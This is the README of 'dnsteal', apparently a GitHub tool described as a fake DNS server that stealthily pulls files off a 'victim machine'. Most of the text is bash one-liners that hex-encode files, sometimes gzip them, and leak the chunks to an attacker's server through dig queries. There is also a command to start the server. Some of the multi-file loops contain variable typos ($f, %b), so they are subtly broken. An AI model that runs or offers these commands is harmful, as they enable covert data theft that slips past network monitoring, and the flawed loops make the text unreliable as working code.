

# dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:



On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.filename.com; done
```

**Support for multiple files**

```bash
for filename in $(ls); do for b in $(xxd -p $f); do dig +short @server %b.$filename.com; done; done
```

**gzip compression supported**

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @server $b.filename.com; done
```

or for multiple, gzip compressed files:

```bash
for filename in $(ls); do for b in $(gzip -c $filename | xxd -p); do dig +short @server %b.$filename.com; done; done
```

~x90
